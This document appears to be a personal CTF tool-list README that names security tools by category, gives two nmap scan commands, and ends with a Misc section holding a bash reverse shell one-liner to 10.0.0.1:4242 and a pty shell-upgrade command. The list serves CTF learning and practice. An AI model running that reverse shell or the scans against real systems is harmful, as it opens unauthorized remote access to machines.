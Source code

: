 # CTF Tool list

This repo is intended to serve as a list of tools that I've found useful during CTFs and any notes that I've got to go with them.

## Discovery

##### Nmap
`nmap -sC -sV <target>`
`nmap -p- <target>`


##### wfuzz

## Web

##### Burpsuite
##### SQLMap
##### Gobuster


## Cracking

##### John the ripper
##### Hydra
##### PadBuster
Used to execute and oracle padding attack

## pwn

##### pwntools
##### ROP Gadet

## Forensics

##### Foremost
##### Bin Walk

## Steg

##### Exiftool
##### Stegsolve
##### Steg Crack
##### Steg Hide
##### zsteg

## Reversing

##### Radare
##### readelf
##### checksec

## Misc

`bash -i >& /dev/tcp/10.0.0.1/4242 0>&1`
`python -c 'import pty; pty.spawn("/bin/sh")'`
`stty raw -echo`